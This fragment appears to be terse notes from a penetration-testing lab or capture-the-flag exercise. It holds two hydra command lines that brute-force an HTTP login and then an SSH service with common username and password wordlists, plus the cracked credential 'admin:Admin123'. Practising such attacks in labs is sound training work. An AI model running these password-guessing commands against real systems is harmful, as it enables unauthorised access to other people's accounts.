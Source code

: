 ___

```bash
hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/seclists/Passwords/2023-200_most_used_passwords.txt 94.237.55.179 http-get / -s 53217
```

admin:Admin123

satwossh

```bash
hydra -l satwossh -P /usr/share/seclists/Passwords/2023-200_most_used_passwords.txt ssh://94.237.51.214:43785/ -t 4
```

